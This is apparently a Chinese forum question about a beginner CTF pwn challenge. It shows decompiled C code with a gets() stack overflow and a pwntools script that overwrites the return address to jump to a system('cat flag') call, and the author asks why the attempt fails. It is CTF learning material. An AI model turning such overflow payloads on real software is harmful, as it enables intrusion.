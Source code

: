 有这么一道入门题
主函数是这样的
```cpp
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __int64 result; // rax
  char v4; // [rsp+0h] [rbp-20h]
  unsigned int v5; // [rsp+8h] [rbp-18h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  puts("What's Your Birth?");
  __isoc99_scanf("%d", &v5);
  while ( getchar() != 10 )
    ;
  if ( v5 == 1926 )
  {
    puts("You Cannot Born In 1926!");
    result = 0LL;
  }
  else
  {
    puts("What's Your Name?");
    gets(&v4);//这个地方有溢出漏洞
    printf("You Are Born In %d\n", v5);
    if ( v5 == 1926 )
    {
      puts("You Shall Have Flag.");
      system("cat flag");
    }
    else
    {
      puts("You Are Naive.");
      puts("You Speed One Second Here.");
    }
    result = 0LL;
  }
  return result;
}
```

大多数题解都是直接覆盖掉 v5,确实也没有问题
我尝试覆盖上面的 gets 函数返回值 让它直接跳转到 _system 函数,偏移量应该是没有问题的,但是一直没有成功

我的脚本是
```py
from pwn import *

p=process('./when_did_you_born-3')

addr=0x0400906
pa='1000'
pay='a'*(0x20+8)+p64(addr)

p.recvuntil('?')
p.sendline(pa)
p.recvuntil('?')
p.sendline(pay)
p.interactive()
```
所以说问题
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTMyMDk0MDY3MV19
-->